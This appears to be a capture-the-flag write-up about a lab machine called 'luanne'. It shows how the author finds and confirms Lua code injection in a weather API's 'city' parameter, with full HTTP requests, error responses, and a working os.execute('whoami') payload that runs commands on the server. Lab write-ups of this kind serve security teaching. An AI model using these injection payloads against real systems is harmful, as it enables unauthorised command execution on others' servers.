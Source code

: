 I know from the port 9001 that a `lua` script is behind, so my guess is that we might try to play with that `city` parameter and see if this is vulnerable or not. 

To do that, I like to use ZAP Proxy. My goal here is to force an error message from the website.
One of the first test I like to do is check if the input properly sanitize by the script. Hence, I put an ' at the of the name of the city. Like this:

>GET http://luanne/weather/forecast?city=London' HTTP/1.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
DNT: 1
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Content-Length: 0
Host: luanne


And we got an error !

>HTTP/1.1 500 Error
Server: nginx/1.19.0
Date: Mon, 07 Dec 2020 10:50:14 GMT
Content-Type: application/json
Connection: keep-alive

><br>Lua error: /usr/local/webapi/weather.lua:49: attempt to call a nil value

I guess the script concatenate the value that we put in the parameter and by putting a ', we just break the concatenation. I'm not very familiar with Lua, but the concatenation syntax is not very complicated. Just be sure of it, let's try concatenates a value inside the parameter.

> GET http://luanne/weather/forecast?city=Lon'%20..%20'don HTTP/1.1

We still have an error but the concatenation is successful ! 


>HTTP/1.1 500 Error
Server: nginx/1.19.0
Date: Mon, 07 Dec 2020 10:59:01 GMT
Content-Type: application/json
Connection: keep-alive

>{"code": 500,"error": "unknown city: London"}

Now we know that we can break outside the concatenation system and maybe execute commands on the system. The function that we want to use in Lua script is os.execute(). So, if I send this:

> GET http://luanne/weather/forecast?city=Lon'%20..%20os.execute(%22whoami%22)' HTTP/1.1

I get that response from the server:

> HTTP/1.1 500 Error
Server: nginx/1.19.0
Date: Mon, 07 Dec 2020 11:17:43 GMT
Content-Type: application/json
Connection: keep-alive

>{"code": 500,_httpd
\<br\>Lua error: [string "                httpd.write('{"code": 500,')..."]:2: attempt to call a boolean value
